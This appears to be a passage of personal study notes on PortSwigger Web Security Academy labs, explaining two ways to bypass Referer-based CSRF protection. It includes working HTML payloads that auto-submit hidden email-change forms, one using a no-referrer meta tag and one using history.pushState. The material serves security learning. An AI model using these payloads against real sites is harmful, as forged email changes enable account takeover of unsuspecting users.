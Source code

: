 #### CSRF where Referer validation depends on header being present
To bypass referrer header we can use metatag: `<meta name="referrer" content="never">`

```html
<form method="POST" action="https://0a970020042119a980475df100fe000c.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@banged">
    <meta name="referrer" content="never">
</form>
<script>
    window.open('https://0a970020042119a980475df100fe000c.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

#### CSRF with broken Referer validation (validation of the cross-domain request)
Sometimes there is a pure check of referrer header so system doesn't check exact url, but it is enough to have original url in the referer!
So we will use `history.pushState(state, title, url)` where:
*state*	- An object you want to associate with the new URL (can be anything you want, like {userId: 123}); it is retrievable later via history.state.
*title*	- A string for the page title. Browsers ignore this for now (it’s reserved for future use — so you usually pass an empty string '').
*url*	- The new URL you want to show in the address bar. It can be relative (/newpage) or absolute (https://site.com/newpage). It does not cause a page reload!

Updating Head with `Referrer-policy` value:
```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-policy: unsafe-url
```

And use a payload:
```html
<html>
  <body>
    <script>history.pushState("", "", "/?0ac400b10398ee0880da035000190001.web-security-academy.net")</script>
    <form action="https://0ac400b10398ee0880da035000190001.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
